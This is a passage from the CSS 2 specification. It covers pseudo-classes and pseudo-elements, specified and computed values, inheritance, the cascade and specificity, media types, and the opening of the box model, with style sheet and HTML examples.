> a:active  { color: lime }   /* active links    */
> ```
>
> Note that the A:hover must be placed after the A:link and A:visited rules, since otherwise the cascading rules will hide the `color` property of the A:hover rule. Similarly, because A:active is placed after A:hover, the active color (lime) will apply when the user both activates and hovers over the A element.

> **Example:** An example of combining dynamic pseudo-classes:
>
> ```css
> a:focus { background: yellow }
> a:focus:hover { background: white }
> ```
>
> The last selector matches A elements that are in pseudo-class :focus and in pseudo-class :hover.

For information about the presentation of focus outlines, please consult the section on [dynamic focus outlines](#css2:dynamic-outlines).

> **Note:** ***Note.** In CSS1, the `:active` pseudo-class was mutually exclusive with `:link` and `:visited`. That is no longer the case. An element can be both `:visited` and `:active` (or `:link` and `:active`) and the normal cascading rules determine which style declarations apply.*

> **Note:** ***Note.** Also note that in CSS1, the `:active` pseudo-class only applied to links.*

##### 5.11.4. The language pseudo-class: **:lang** {#css2:lang}

If the document language specifies how the human language of an element is determined, it is possible to write selectors in CSS that match an element based on its language. For example, in HTML [HTML401], the language is determined by a combination of the "lang" attribute, the META element, and possibly by information from the protocol (such as HTTP headers). XML uses an attribute called xml:lang, and there may be other document language-specific methods for determining the language.

The pseudo-class `:lang(C)` matches if the element is in language C. Whether there is a match is based solely on the identifier C being either equal to, or a hyphen-separated substring of, the element’s language value, in the same way as if performed by the [`|=`](#css2:attribute-selectors) operator. The matching of C against the element’s language value is performed case-insensitively for characters within the ASCII range. The identifier C does not have to be a valid language name.

C must not be empty.

> **Note:** It is recommended that documents and protocols indicate language using codes from BCP 47 [BCP47] or its successor, and by means of "xml:lang" attributes in the case of XML-based documents [XML10]. See  ["FAQ: Two-letter or three-letter language codes."](https://www.w3.org/International/questions/qa-lang-2or3)

> **Example:** The following rules set the quotation marks for an HTML document that is either in Canadian French or German:
>
> ```css
> html:lang(fr-ca) { quotes: '« ' ' »' }
> html:lang(de) { quotes: '»' '«' '\2039' '\203A' }
> :lang(fr) > Q { quotes: '« ' ' »' }
> :lang(de) > Q { quotes: '»' '«' '\2039' '\203A' }
> ```
>
> The second pair of rules actually set the `quotes` property on Q elements according to the language of its parent. This is done because the choice of quote marks is typically based on the language of the element around the quote, not the quote itself: like this piece of French “à l’improviste” in the middle of an English text uses the English quotation marks.

> **Note:** **Note** the difference between [lang|=xx] and :lang(xx). In this HTML example, only the BODY matches [lang|=fr] (because it has a LANG attribute) but both the BODY and the P match :lang(fr) (because both are in French).
>
> ```
> <body lang=fr>
>   <p>Je suis Français.</p>
> </body>
> ```

#### 5.12. Pseudo-elements {#css2:pseudo-element-selectors}

Pseudo-elements behave just like real elements in CSS with the exceptions described below and [elsewhere.](#css2:before-after-content)

> **Note:** *Note that the sections below do not define the exact rendering of `:first-line` and `:first-letter` in all cases. A future level of CSS may define them more precisely.*

##### 5.12.1. The **:first-line** pseudo-element {#css2:first-line-pseudo}

The :first-line pseudo-element applies special styles to the contents of the first formatted line of a paragraph. For instance:

```css
p:first-line { text-transform: uppercase }
```

The above rule means "change the letters of the first line of every paragraph to uppercase". However, the selector "P:first-line" does not match any real HTML element. It does match a pseudo-element that [conforming user agents](#css2:conformance) will insert at the beginning of every paragraph.

Note that the length of the first line depends on a number of factors, including the width of the page, the font size, etc. Thus, an ordinary HTML paragraph such as:

```html
<P>This is a somewhat long HTML
paragraph that will be broken into several
lines. The first line will be identified
by a fictional tag sequence. The other lines
will be treated as ordinary lines in the
paragraph.</P>
```

the lines of which happen to be broken as follows:

```html
THIS IS A SOMEWHAT LONG HTML PARAGRAPH THAT
will be broken into several lines. The first
line will be identified by a fictional tag
sequence. The other lines will be treated as
ordinary lines in the paragraph.
```

might be "rewritten" by user agents to include the ***fictional tag sequence*** for :first-line. This fictional tag sequence helps to show how properties are inherited.

```
<P><P:first-line> This is a somewhat long HTML
paragraph that </P:first-line> will be broken into several
lines. The first line will be identified
by a fictional tag sequence. The other lines
will be treated as ordinary lines in the
paragraph.</P>
```

If a pseudo-element breaks up a real element, the desired effect can often be described by a fictional tag sequence that closes and then re-opens the element. Thus, if we mark up the previous paragraph with a SPAN element:

```xml
<P><SPAN class="test"> This is a somewhat long HTML
paragraph that will be broken into several
lines.</SPAN> The first line will be identified
by a fictional tag sequence. The other lines
will be treated as ordinary lines in the
paragraph.</P>
```

the user agent could simulate start and end tags for SPAN when inserting the fictional tag sequence for :first-line.

```
<P><P:first-line><SPAN class="test"> This is a
somewhat long HTML
paragraph that will </SPAN></P:first-line><SPAN class="test"> be
broken into several
lines.</SPAN> The first line will be identified
by a fictional tag sequence. The other lines
will be treated as ordinary lines in the
paragraph.</P>
```

The `:first-line` pseudo-element can only be attached to a [block container element.](#css2:block-boxes)

The "first formatted line" of an element may occur inside a block-level descendant in the same flow (i.e., a block-level descendant that is not positioned and not a float). E.g., the first line of the DIV in `<DIV><P>This line...</P></DIV>` is the first line of the P (assuming that both P and DIV are block-level).

The first line of a table-cell or inline-block cannot be the first formatted line of an ancestor element. Thus, in `<DIV><P STYLE="display: inline-block">Hello<BR>Goodbye</P> etcetera</DIV>` the first formatted line of the DIV is not the line "Hello".

> **Note:** that the first line of the P in this fragment: `<p><br>First...` does not contain any letters (assuming the default style for BR in HTML 4). The word "First" is not on the first formatted line.

A UA should act as if the fictional start tags of the first-line pseudo-elements were nested just inside the innermost enclosing block-level element. (Since CSS1 and CSS2 (1998) were silent on this case, authors should not rely on this behavior.) Here is an example. The fictional tag sequence for

```xml
<DIV>
  <P>First paragraph</P>
  <P>Second paragraph</P>
</DIV>
```

is

```
<DIV>
  <P><DIV:first-line><P:first-line>First paragraph</P:first-line></DIV:first-line></P>
  <P><P:first-line>Second paragraph</P:first-line></P>
</DIV>
```

The :first-line pseudo-element is similar to an inline-level element, but with certain restrictions. The following properties apply to a :first-line pseudo-element: [font properties,](#css2:fonts) [color property,](#css2:color-bg) [background properties,](#css2:background-properties) `word-spacing`, `letter-spacing`, `text-decoration`, `text-transform`, and `line-height`. UAs may apply other properties as well.

##### 5.12.2. The **:first-letter** pseudo-element {#css2:first-letter}

The :first-letter pseudo-element must select the first letter of the first line of a block, if it is not preceded by any other content (such as images or inline tables) on its line. The :first-letter pseudo-element may be used for "initial caps" and "drop caps", which are common typographical effects. This type of initial letter is similar to an inline-level element if its `float` property is `none`, otherwise it is similar to a floated element.

These are the properties that apply to :first-letter pseudo-elements: [font properties,](#css2:fonts) `text-decoration`, `text-transform`, `letter-spacing`, `word-spacing` (when appropriate), `line-height`, `float`, `vertical-align` (only if `float` is `none`), [margin properties,](#css2:margin-properties) [padding properties,](#css2:padding-properties) [border properties,](#css2:border-properties) [color property,](#css2:color-bg) [background properties.](#css2:background-properties) UAs may apply other properties as well. To allow UAs to render a typographically correct drop cap or initial cap, the UA may choose a line-height, width and height based on the shape of the letter, unlike for normal elements. CSS3 is expected to have specific properties that apply to first-letter.

> **Example:** This example shows a possible rendering of an initial cap. Note that the `line-height` that is inherited by the first-letter pseudo-element is 1.1, but the UA in this example has computed the height of the first letter differently, so that it does not cause any unnecessary space between the first two lines. Also note that the fictional start tag of the first letter is inside the SPAN, and thus the font weight of the first letter is normal, not bold as the SPAN:
>
> ```
> p { line-height: 1.1 }
> p:first-letter { font-size: 3em; font-weight: normal }
> span { font-weight: bold }
> ...
> <p><span>Het hemelsche</span> gerecht heeft zich ten lange lesten<br>
> Erbarremt over my en mijn benaeuwde vesten<br>
> En arme burgery, en op mijn volcx gebed<br>
> En dagelix geschrey de bange stad ontzet.
> ```
>
> 

> **Example:** The following CSS 2 will make a drop cap initial letter span about two lines:
>
> ```
> <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
> <HTML>
>  <HEAD>
>   <TITLE>Drop cap initial letter</TITLE>
>   <STYLE type="text/css">
>    P              { font-size: 12pt; line-height: 1.2 }
>    P:first-letter { font-size: 200%; font-style: italic;
>                     font-weight: bold; float: left }
>    SPAN           { text-transform: uppercase }
>   </STYLE>
>  </HEAD>
>  <BODY>
>   <P><SPAN>The first</SPAN> few words of an article
>     in The Economist.</P>
>  </BODY>
> </HTML>
> ```
>
> This example might be formatted as follows:
>
> 
>
> The fictional tag sequence is:
>
> ```
> <P>
> <SPAN>
> <P:first-letter>
> T
> </P:first-letter>he first
> </SPAN>
> few words of an article in the Economist.
> </P>
> ```
>
> Note that the :first-letter pseudo-element tags abut the content (i.e., the initial character), while the :first-line pseudo-element start tag is inserted right after the start tag of the block element.

In order to achieve traditional drop caps formatting, user agents may approximate font sizes, for example to align baselines. Also, the glyph outline may be taken into account when formatting.

Punctuation (i.e, characters defined in Unicode [UNICODE] in the "open" (Ps), "close" (Pe), "initial" (Pi). "final" (Pf) and "other" (Po) punctuation classes), that precedes or follows the first letter should be included, as in:


The `:first-letter` also applies if the first letter is in fact a digit, e.g., the "6" in "67 million dollars is a lot of money."

The :first-letter pseudo-element applies to [block container elements.](#css2:block-boxes)

The :first-letter pseudo-element can be used with all such elements that contain text, or that have a descendant in the same flow that contains text. A UA should act as if the fictional start tag of the first-letter pseudo-element is just before the first text of the element, even if that first text is in a descendant.

> **Example:** Here is an example. The fictional tag sequence for this HTML fragment:
>
> ```
> <div>
> <p>The first text.
> ```
>
> is:
>
> ```
> <div>
> <p><div:first-letter><p:first-letter>T</...></...>he first text.
> ```

The first letter of a table-cell or inline-block cannot be the first letter of an ancestor element. Thus, in `<DIV><P STYLE="display: inline-block">Hello<BR>Goodbye</P> etcetera</DIV>` the first letter of the DIV is not the letter "H". In fact, the DIV does not have a first letter.

The first letter must occur on the [first formatted line.](#css2:first-formatted-line) For example, in this fragment: `<p><br>First...` the first line does not contain any letters and `:first-letter` does not match anything (assuming the default style for BR in HTML 4). In particular, it does not match the "F" of "First."

If an element is a [list item](#css2:lists) ('display: list-item'), the `:first-letter` applies to the first letter in the principal box after the marker. UAs may ignore `:first-letter` on list items with 'list-style-position: inside'. If an element has `:before` or `:after` content, the ':first-letter applies to the first letter of the element *including* that content.

> **Example:** E.g., after the rule 'p:before {content: "Note: "}', the selector `p:first-letter` matches the "N" of "Note".

Some languages may have specific rules about how to treat certain letter combinations. In Dutch, for example, if the letter combination "ij" appears at the beginning of a word, both letters should be considered within the :first-letter pseudo-element.

If the letters that would form the first-letter are not in the same element, such as "'T" in `<p>'<em>T...`, the UA may create a first-letter pseudo-element from one of the elements, both elements, or simply not create a pseudo-element.

Similarly, if the first letter(s) of the block are not at the start of the line (for example due to bidirectional reordering), then the UA need not create the pseudo-element(s).

> **Example:** The following example illustrates how overlapping pseudo-elements may interact. The first letter of each P element will be green with a font size of `24pt`. The rest of the first formatted line will be `blue` while the rest of the paragraph will be `red`.
>
> ```
> p { color: red; font-size: 12pt }
> p:first-letter { color: green; font-size: 200% }
> p:first-line { color: blue }
>
> <P>Some text that ends up on two lines</P>
> ```
>
> Assuming that a line break will occur before the word "ends", the fictional tag sequence for this fragment might be:
>
> ```
> <P>
> <P:first-line>
> <P:first-letter>
> S
> </P:first-letter>ome text that
> </P:first-line>
> ends up on two lines
> </P>
> ```
>
> Note that the :first-letter element is inside the :first-line element. Properties set on :first-line are inherited by :first-letter, but are overridden if the same property is set on :first-letter.

##### 5.12.3. The :before and :after pseudo-elements {#css2:before-and-after}

The `:before` and `:after` pseudo-elements can be used to insert generated content before or after an element’s content. They are explained in the section on [generated text.](#css2:generated-text)

> **Example:** ```css
> h1:before {content: counter(chapno, upper-roman) ". "}
> ```

When the :first-letter and :first-line pseudo-elements are applied to an element having content generated using :before and :after, they apply to the first letter or line of the element including the generated content.

> **Example:** ```css
> p.special:before {content: "Special! "}
> p.special:first-letter {color: #ffd800}
> ```
>
> This will render the "S" of "Special!" in gold.

### 6. Assigning property values, Cascading, and Inheritance {#css2:assigning}

#### 6.1. Specified, computed, and actual values {#css2:value-stages}

Once a user agent has parsed a document and constructed a document tree, it must assign, for every element in the tree, a value to every property that applies to the target [media type](#css2:media).

The final value of a property is the result of a four-step calculation: the value is determined through specification (the "specified value"), then resolved into a value that is used for inheritance (the "computed value"), then converted into an absolute value if necessary (the "used value"), and finally transformed according to the limitations of the local environment (the "actual value").

##### 6.1.1.  **Specified values** {#css2:specified-values}

User agents must first assign a specified value to each property based on the following mechanisms (in order of precedence):

1. If the [cascade](#css2:cascade) results in a value, use it. Except that, if the value is `inherit`, the specified value is defined in [§ 6.2.1 The inherit value](#css2:value-def-inherit) below.
2. Otherwise, if the property is [inherited](#css2:inheritance) and the element is not the root of the document tree, use the computed value of the parent element.
3. Otherwise use the property’s **initial value**. The initial value of each property is indicated in the property’s definition.

##### 6.1.2.  **Computed values** {#css2:computed-values}

Specified values are resolved to computed values during the cascade; for example URIs are made absolute and `em` and `ex` units are computed to pixel or absolute lengths. Computing a value never requires the user agent to render the document.

The computed value of URIs that the UA cannot resolve to absolute URIs is the specified value.

The computed value of a property is determined as specified by the Computed Value line in the definition of the property. See the section on [inheritance](#css2:inheritance) for the definition of computed values when the specified value is `inherit`.

The computed value exists even when the property does not apply, as defined by the ['Applies To'](#css2:applies-to) line. However, some properties may define the computed value of a property for an element to depend on whether the property applies to that element.

##### 6.1.3.  **Used values** {#css2:used-values}

Computed values are processed as far as possible without formatting the document. Some values, however, can only be determined when the document is being laid out. For example, if the width of an element is set to be a certain percentage of its containing block, the width cannot be determined until the width of the containing block has been determined. The **used value** is the result of taking the computed value and resolving any remaining dependencies into an absolute value.

##### 6.1.4.  **Actual values** {#css2:actual-values}

A used value is in principle the value used for rendering, but a user agent may not be able to make use of the value in a given environment. For example, a user agent may only be able to render borders with integer pixel widths and may therefore have to approximate the computed width, or the user agent may be forced to use only black and white shades instead of full color. The actual value is the used value after any approximations have been applied.

#### 6.2. Inheritance {#css2:inheritance}

Some values are inherited by the children of an element in the document tree, as described above. Each property [defines](#css2:property-defs) whether it is inherited or not.

> **Example:** Suppose there is an H1 element with an emphasizing element (EM) inside:
>
> ```xml
> <H1>The headline <EM>is</EM> important!</H1>
> ```
>
> If no color has been assigned to the EM element, the emphasized "is" will inherit the color of the parent element, so if H1 has the color blue, the EM element will likewise be in blue.

When inheritance occurs, elements inherit computed values. The computed value from the parent element becomes both the specified value and the computed value on the child.

> **Example:** For example, given the following style sheet:
>
> ```css
> body { font-size: 10pt }
> h1 { font-size: 130% }
> ```
>
> and this document fragment:
>
> ```html
> <BODY>
>   <H1>A <EM>large</EM> heading</H1>
> </BODY>
> ```
>
> the `font-size` property for the H1 element will have the computed value `13pt` (130% times 10pt, the parent’s value). Since the computed value of `font-size` is inherited, the EM element will have the computed value `13pt` as well. If the user agent does not have the 13pt font available, the actual value of `font-size` for both H1 and EM might be, for example, `12pt`.

> **Note:** that inheritance follows the document tree and is not intercepted by [anonymous boxes.](#css2:box-gen)

##### 6.2.1. The **inherit** value {#css2:value-def-inherit}

Each property may also have a cascaded value of `inherit`, which means that, for a given element, the property takes as specified value the computed value of the element’s parent. The `inherit` value can be used to enforce inheritance of values, and it can also be used on properties that are not normally inherited.

If the `inherit` value is set on the root element, the property is assigned its initial value.

> **Example:** In the example below, the `color` and `background` properties are set on the BODY element. On all other elements, the `color` value will be inherited and the background will be transparent. If these rules are part of the user’s style sheet, black text on a white background will be enforced throughout the document.
>
> ```css
> body {
>   color: black !important;
>   background: white !important;
> }
>
> * {
>   color: inherit !important;
>   background: transparent !important;
> }
> ```

#### 6.3. The @import rule {#css2:at-import}

The **@import** rule allows users to import style rules from other style sheets. In CSS 2, any @import rules must precede all other rules (except the @charset rule, if present). See the [section on parsing](#css2:at-rules) for when user agents must ignore @import rules. The `@import` keyword must be followed by the URI of the style sheet to include. A string is also allowed; it will be interpreted as if it had url(...) around it.

> **Example:** The following lines are equivalent in meaning and illustrate both `@import` syntaxes (one with "url()" and one with a bare string):
>
> ```css
> @import "mystyle.css";
> @import url("mystyle.css");
> ```

So that user agents can avoid retrieving resources for unsupported [media types](#css2:media), authors may specify media-dependent `@import` rules. These **conditional imports** specify comma-separated media types after the URI.

> **Example:** The following rules illustrate how @import rules can be made media-dependent:
>
> ```css
> @import url("fineprint.css") print;
> @import url("bluish.css") projection, tv;
> ```

In the absence of any media types, the import is unconditional. Specifying `all` for the medium has the same effect. The import only takes effect if the target medium matches the media list.

A target medium matches a media list if one of the items in the media list is the target medium or `all`.

> **Note:** that Media Queries [MEDIAQ] extends the syntax of media lists and the definition of matching.

When the same style sheet is imported or linked to a document in multiple places, user agents must process (or act as though they do) each link as though the link were to a separate style sheet.

#### 6.4. The cascade {#css2:cascade}

Style sheets may have three different origins: author, user, and user agent.

- **Author**. The author specifies style sheets for a source document according to the conventions of the document language. For instance, in HTML, style sheets may be included in the document or linked externally.
- **User**: The user may be able to specify style information for a particular document. For example, the user may specify a file that contains a style sheet or the user agent may provide an interface that generates a user style sheet (or behaves as if it did).
- **User agent**: [Conforming user agents](#css2:conformance) must apply a **default style sheet** (or behave as if they did). A user agent’s default style sheet should present the elements of the document language in ways that satisfy general presentation expectations for the document language (e.g., for visual browsers, the EM element in HTML is presented using an italic font). See [A sample style sheet for HTML](#css2:html-stylesheet)  for a recommended default style sheet for HTML documents.

  > **Note:** that the user may modify system settings (e.g., system colors) that affect the default style sheet. However, some user agent implementations make it impossible to change the values in the default style sheet.

Style sheets from these three origins will overlap in scope, and they interact according to the cascade.

The CSS **cascade** assigns a weight to each style rule. When several rules apply, the one with the greatest weight takes precedence.

By default, rules in author style sheets have more weight than rules in user style sheets. Precedence is reversed, however, for "!important" rules. All user and author rules have more weight than rules in the UA’s default style sheet.

##### 6.4.1. Cascading order {#css2:cascading-order}

To find the value for an element/property combination, user agents must apply the following sorting order:

1. Find all declarations that apply to the element and property in question, for the target [media type](#css2:media). Declarations apply if the associated selector [matches](#css2:selector) the element in question and the target medium matches the media list on all @media rules containing the declaration and on all links on the path through which the style sheet was reached.
2. Sort according to importance (normal or important) and origin (author, user, or user agent). In ascending order of precedence:

  1. user agent declarations
  2. user normal declarations
  3. author normal declarations
  4. author important declarations
  5. user important declarations
3. Sort rules with the same importance and origin by [specificity](#css2:specificity) of selector: more specific selectors will override more general ones. Pseudo-elements and pseudo-classes are counted as normal elements and classes, respectively.
4. Finally, sort by order specified: if two declarations have the same weight, origin and specificity, the latter specified wins. Declarations in imported style sheets are considered to be before any declarations in the style sheet itself.

Apart from the "!important" setting on individual declarations, this strategy gives author’s style sheets higher weight than those of the reader. User agents must give the user the ability to turn off the influence of specific author style sheets, e.g., through a pull-down menu. Conformance to UAAG 1.0 checkpoint 4.14 satisfies this condition [UAAG10].

##### 6.4.2. !important rules {#css2:important-rules}

CSS attempts to create a balance of power between author and user style sheets. By default, rules in an author’s style sheet override those in a user’s style sheet (see cascade rule 3).

However, for balance, an "!important" declaration (the delimiter token "!" and keyword "important" follow the declaration) takes precedence over a normal declaration. Both author and user style sheets may contain "!important" declarations, and user "!important" rules override author "!important" rules. This CSS feature improves accessibility of documents by giving users with special requirements (large fonts, color combinations, etc.) control over presentation.

Declaring a shorthand property (e.g., `background`) to be "!important" is equivalent to declaring all of its sub-properties to be "!important".

> **Example:** The first rule in the user’s style sheet in the following example contains an "!important" declaration, which overrides the corresponding declaration in the author’s style sheet. The second declaration will also win due to being marked "!important". However, the third rule in the user’s style sheet is not "!important" and will therefore lose to the second rule in the author’s style sheet (which happens to set style on a shorthand property). Also, the third author rule will lose to the second author rule since the second rule is "!important". This shows that "!important" declarations have a function also within author style sheets.
>
> ```css
> /* From the user's style sheet */
> p { text-indent: 1em ! important }
> p { font-style: italic ! important }
> p { font-size: 18pt }
>
> /* From the author's style sheet */
> p { text-indent: 1.5em !important }
> p { font: normal 12pt sans-serif !important }
> p { font-size: 24pt }
> ```

##### 6.4.3. Calculating a selector’s specificity {#css2:specificity}

A selector’s specificity is calculated as follows:

- count 1 if the declaration is from is a style attribute ([css-style-attr]) rather than a rule with a selector, 0 otherwise (= a) (In HTML, values of an element’s "style" attribute are style attributes ([HTML § 3.2.6.5 The style attribute](https://html.spec.whatwg.org/multipage/dom.html#the-style-attribute)). These rules have no selectors, so a=1, b=0, c=0, and d=0.)
- count the number of ID attributes in the selector (= b)
- count the number of other attributes and pseudo-classes in the selector (= c)
- count the number of element names and pseudo-elements in the selector (= d)

The specificity is based only on the form of the selector. In particular, a selector of the form "[id=p33]" is counted as an attribute selector (a=0, b=0, c=1, d=0), even if the id attribute is defined as an "ID" in the source document’s DTD.

Concatenating the four numbers a-b-c-d (in a number system with a large base) gives the specificity.

> **Example:** Some examples:
>
> ```
> *             {}  /* a=0 b=0 c=0 d=0 -> specificity = 0,0,0,0 */
> li            {}  /* a=0 b=0 c=0 d=1 -> specificity = 0,0,0,1 */
> li:first-line {}  /* a=0 b=0 c=0 d=2 -> specificity = 0,0,0,2 */
> ul li         {}  /* a=0 b=0 c=0 d=2 -> specificity = 0,0,0,2 */
> ul ol+li      {}  /* a=0 b=0 c=0 d=3 -> specificity = 0,0,0,3 */
> h1 + *[rel=up]{}  /* a=0 b=0 c=1 d=1 -> specificity = 0,0,1,1 */
> ul ol li.red  {}  /* a=0 b=0 c=1 d=3 -> specificity = 0,0,1,3 */
> li.red.level  {}  /* a=0 b=0 c=2 d=1 -> specificity = 0,0,2,1 */
> #x34y         {}  /* a=0 b=1 c=0 d=0 -> specificity = 0,1,0,0 */
> style=""          /* a=1 b=0 c=0 d=0 -> specificity = 1,0,0,0 */
> ```

> **Example:** ```
> <HEAD>
> <STYLE type="text/css">
>   #x97z { color: red }
> </STYLE>
> </HEAD>
> <BODY>
> <P ID=x97z style="color: green">
> </BODY>
> ```
>
> In the above example, the color of the P element would be green. The declaration in the "style" attribute will override the one in the STYLE element because of cascading rule 3, since it has a higher specificity.

##### 6.4.4. Precedence of non-CSS presentational hints {#css2:preshint}

The UA may choose to honor presentational attributes in an HTML source document. If so, these attributes are translated to the corresponding CSS rules with specificity equal to 0, and are treated as if they were inserted at the start of the author style sheet. They may therefore be overridden by subsequent style sheet rules. In a transition phase, this policy will make it easier for stylistic attributes to coexist with style sheets.

For HTML, any attribute that is not in the following list should be considered presentational: abbr, accept-charset, accept, accesskey, action, alt, archive, axis, charset, checked, cite, class, classid, code, codebase, codetype, colspan, coords, data, datetime, declare, defer, dir, disabled, enctype, for, headers, href, hreflang, http-equiv, id, ismap, label, lang, language, longdesc, maxlength, media, method, multiple, name, nohref, object, onblur, onchange, onclick, ondblclick, onfocus, onkeydown, onkeypress, onkeyup, onload, onload, onmousedown, onmousemove, onmouseout, onmouseover, onmouseup, onreset, onselect, onsubmit, onunload, onunload, profile, prompt, readonly, rel, rev, rowspan, scheme, scope, selected, shape, span, src, standby, start, style, summary, title, type (except on LI, OL and UL elements), usemap, value, valuetype, version.

For other languages, all document language-based styling must be translated to the corresponding CSS and either enter the cascade at the user agent level or, as with HTML presentational hints, be treated as author level rules with a specificity of zero placed at the start of the author style sheet.

> **Example:** The following user style sheet would override the font weight of `b` elements in all documents, and the color of `font` elements with color attributes in XML documents. It would not affect the color of any `font` elements with color attributes in HTML documents:
>
> ```css
> b { font-weight: normal; }
> font[color] { color: orange; }
> ```
>
> The following, however, would override the color of font elements in all documents:
>
> ```css
> font[color] { color: orange ! important; }
> ```

### 7. Media types {#css2:media}

#### 7.1. Introduction to media types {#css2:media-intro}

One of the most important features of style sheets is that they specify how a document is to be presented on different media: on the screen, on paper, with a speech synthesizer, with a braille device, etc.

Certain CSS properties are only designed for certain media (e.g., the `page-break-before` property only applies to paged media). On occasion, however, style sheets for different media types may share a property, but require different values for that property. For example, the `font-size` property is useful both for screen and print media. The two media types are different enough to require different values for the common property; a document will typically need a larger font on a computer screen than on paper. Therefore, it is necessary to express that a style sheet, or a section of a style sheet, applies to certain media types.

#### 7.2. Specifying media-dependent style sheets {#css2:media-sheets}

There are currently two ways to specify media dependencies for style sheets:

- Specify the target medium from a style sheet with the `@media` or `@import` at-rules.

  > **Example:** ```css
  > @import url("fancyfonts.css") screen;
  > @media print {
  >   /* style sheet for print goes here */
  > }
  > ```
- Specify the target medium within the document language. For example, in HTML 4 ([HTML401]), the "media" attribute on the LINK element specifies the target media of an external style sheet:

  > **Example:** ```
  > <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
  > <HTML>
  >    <HEAD>
  >       <TITLE>Link to a target medium</TITLE>
  >       <LINK REL="stylesheet" TYPE="text/css"
  >      MEDIA="print, handheld" HREF="foo.css">
  >    </HEAD>
  >    <BODY>
  >       <P>The body...
  >    </BODY>
  > </HTML>
  > ```

The [@import](#css2:at-import) rule is defined in the [chapter on the cascade](#css2:assigning).

##### 7.2.1. The **@media** rule {#css2:at-media-rule}

An `@media` rule specifies the target [media types](#css2:media-types) (separated by commas) of a set of [statements](#css2:tokenization) (delimited by curly braces). Invalid statements must be ignored per [4.1.7 "Rule sets, declaration blocks, and selectors"](#css2:rule-sets) and [4.2 "Rules for handling parsing errors."](#css2:parsing-errors) The @media construct allows style sheet rules for various media in the same style sheet:

```css
@media print {
  body { font-size: 10pt }
}
@media screen {
  body { font-size: 13px }
}
@media screen, print {
  body { line-height: 1.2 }
}
```

Style rules outside of @media rules apply to all media types that the style sheet applies to. At-rules inside @media are invalid in CSS 2.

#### 7.3. Recognized media types {#css2:media-types}

The names chosen for CSS media types reflect target devices for which the relevant properties make sense. In the following list of CSS media types the names of media types are normative, but the descriptions are informative. Likewise, the "Media" field in the description of each property is informative.

****all****

: Suitable for all devices.

****braille****

: Intended for braille tactile feedback devices.

****embossed****

: Intended for paged braille printers.

****handheld****

: Intended for handheld devices (typically small screen, limited bandwidth).

****print****

: Intended for paged material and for documents viewed on screen in print preview mode. Please consult the section on [paged media](#css2:the-page) for information about formatting issues that are specific to paged media.

****projection****

: Intended for projected presentations, for example projectors. Please consult the section on [paged media](#css2:the-page) for information about formatting issues that are specific to paged media.

****screen****

: Intended primarily for color computer screens.

****speech****

: Intended for speech synthesizers. Note: CSS2 (1998) had a similar media type called `aural` for this purpose.

****tty****

: Intended for media using a fixed-pitch character grid (such as teletypes, terminals, or portable devices with limited display capabilities). Authors should not use [pixel units](#css2:length-units) with the "tty" media type.

****tv****

: Intended for television-type devices (low resolution, color, limited-scrollability screens, sound available).

Media type names are case-insensitive.

Media types are mutually exclusive in the sense that a user agent can only support one media type when rendering a document. However, user agents may use different media types on different canvases. For example, a document may (simultaneously) be shown in `screen` mode on one canvas and `print` mode on another canvas.

Note that a multimodal media type is still only one media type. The `tv` media type, for example, is a multimodal media type that renders both visually and aurally to a single canvas.

@media and @import rules with unknown media types (that are nonetheless valid identifiers) are treated as if the unknown media types are not present. If an @media/@import rule contains a malformed media type (not an identifier) then the statement is invalid.

> **Note:** ***Note:** Media Queries supersedes this error handling.*

> **Example:** For example, in the following snippet, the rule on the P element applies in `screen` mode (even though the `3D` media type is not known).
>
> ```css
> @media screen, 3D {
>   P { color: green; }
> }
> ```

> **Note:** ***Note.** Future updates of CSS may extend the list of media types. Authors should not rely on media type names that are not yet defined by a CSS specification.*

##### 7.3.1. Media groups {#css2:media-groups}

*This section is informative, not normative.*

Each CSS property definition specifies which media types the property applies to. Since properties generally apply to several media types, the "Applies to media" section of each property definition lists **media groups** rather than individual media types. Each property applies to all media types in the media groups listed in its definition.

CSS 2 defines the following media groups:

- **continuous** or **paged**.
- ****visual**,** ****audio**,** ****speech**,** or **tactile**.
- **grid** (for character grid devices), or **bitmap**.
- **interactive** (for devices that allow user interaction), or **static** (for those that do not).
- **all** (includes all media types)

The following table shows the relationships between media groups and media types:

| Media Types | Media Groups |  |  |  |
| --- | --- | --- | --- | --- |
|  | continuous/paged | visual/audio/speech/tactile | grid/bitmap | interactive/static |
| braille | continuous | tactile | grid | both |
| embossed | paged | tactile | grid | static |
| handheld | both | visual, audio, speech | both | both |
| print | paged | visual | bitmap | static |
| projection | paged | visual | bitmap | interactive |
| screen | continuous | visual, audio | bitmap | both |
| speech | continuous | speech | N/A | both |
| tty | continuous | visual | grid | both |
| tv | both | visual, audio | bitmap | both |

### 8. Box model {#css2:box-model}

The CSS box model describes the rectangular boxes that are generated for elements in the document tree and laid out according to the [visual formatting model](#css2:visuren).

#### 8.1. Box dimensions {#css2:box-dimensions}

Each box has a  **content area** (e.g., text, an image, etc.) and optional surrounding  **padding**,  **border**, and  **margin** areas; the size of each area is specified by properties defined below. The following diagram shows how these areas relate and the terminology used to refer to pieces of margin, border, and padding:


The margin, border, and padding can be broken down into top, right, bottom, and left segments (e.g., in the diagram, "LM" for left margin, "RP" for right padding, "TB" for top border, etc.).

The perimeter of each of the four areas (content, padding, border, and margin) is called an "edge", so each box has four edges:

****content edge** or **inner edge****

: The content edge surrounds the rectangle given by the [width](#css2:Computing_widths_and_margins) and [height](#css2:Computing_heights_and_margins) of the box, which often depend on the element’s rendered content. The four content edges define the box’s **content box**.

****padding edge****

: The padding edge surrounds the box padding. If the padding has 0 width, the padding edge is the same as the content edge. The four padding edges define the box’s **padding box**.

****border edge****

: The border edge surrounds the box’s border. If the border has 0 width, the border edge is the same as the padding edge. The four border edges define the box’s **border box**.

****margin edge** or **outer edge****

: The margin edge surrounds the box margin. If the margin has 0 width, the margin edge is the same as the border edge. The four margin edges define the box’s **margin box**.

Each edge may be broken down into a top, right, bottom, and left edge.

The dimensions of the content area of a box — the **content width** and **content height** — depend on several factors: whether the element generating the box has the `width` or `height` property set, whether the box contains text or other boxes, whether the box is a table, etc. Box widths and heights are discussed in the chapter on [visual formatting model details](#css2:visudet).

The background style of the content, padding, and border areas of a box is specified by the `background` property of the generating element. Margin backgrounds are always transparent.

#### 8.2. Example of margins, padding, and borders {#css2:mpb-examples}

This example illustrates how margins, padding, and borders interact. The example HTML document:

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<HTML>
  <HEAD>
    <TITLE>Examples of margins, padding, and borders</TITLE>
    <STYLE type="text/css">
      UL {
